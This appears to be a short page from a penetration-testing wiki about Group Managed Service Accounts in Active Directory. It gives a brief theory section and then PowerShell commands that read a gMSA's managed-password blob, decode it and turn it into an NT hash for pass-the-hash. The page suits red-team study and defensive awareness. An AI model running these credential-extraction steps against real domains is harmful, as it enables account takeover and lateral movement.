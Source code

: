 # gMSA

## Theory

Group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service account across multiple servers.\
It protects against Kerberoast attack type by generating a random 256 bytes password and rotating it every 30 days.

To read the password you need the <mark style="color:purple;">**msds-ManagedPassword**</mark> permission

## Abuse

### Read current password

{% hint style="info" %}
You need a principal that can read the blob
{% endhint %}

Use [ADmodule ](https://github.com/samratashok/ADModule)and [DSInternal](https://github.com/MichaelGrafnetter/DSInternals)

{% code overflow="wrap" %}
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity <$User> -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
```
{% endcode %}

```powershell
ConvertTo-NTHash -password $decodedpwd.SecureCurrentPassword
```

Now you can [pass the hash](../../lateral-movement/pass-the/pass-the-hash.md)

## References

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

